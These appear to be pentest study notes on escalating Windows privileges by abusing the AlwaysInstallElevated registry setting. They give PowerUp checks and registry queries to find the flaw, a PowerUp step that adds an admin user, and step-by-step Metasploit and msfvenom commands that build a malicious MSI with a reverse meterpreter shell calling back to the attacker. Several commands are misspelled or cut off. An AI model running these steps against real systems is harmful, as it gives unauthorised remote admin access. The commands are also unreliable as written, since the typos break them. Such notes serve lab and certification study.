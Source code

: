### Escalation path: registry

- start PowerShell: `powershell -ey bypass`
- then start PowerUp.ps1: `. .\PowerUp.ps1`
- in PowerUp: `Invoke-AllChecks`
- Check for autologon for credentials. Look for FILE ALL ACCES FOR EVERYONE

### Check for autoruns

- `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`

### Using metasploit

- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost
- set up payload with msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp lhost=<your IP> -f exe -o program.exe`

### Using PowerUp

- `Write-suserAddMSI` it's going to set up a file which we can use to add admin user to the existing ones.
- `net localgroup administrators`

### There are packages for Windows, called MSI packages are Windows installers. We have the registry feature where they install packages elevated. They will install as an admin user. This is a configuration issue we can take advantage of this. If the value is set to 1 in the registry we can attack it!

### Detection:

- open command prompt and: `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
- check manually: `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` and `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
- if you find from output that ***AlwaysInstallElevated*** value is set to 1 then
- `eg query HKCU\Software\Policies\Microsoft\Windows\Installer`

### Exploit:

- start metasploit, then `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost <your IP`
- `run`
- generate payload with msfvenom: `msfvenom -p windows/meterpreter/reverse_tcp lhost=<your IP> -f msi -o setup.msi`
- place generated setup.msi from kali onto the target machine's /temp folder
- run it and enjoy your shell :)

### Another method using registry
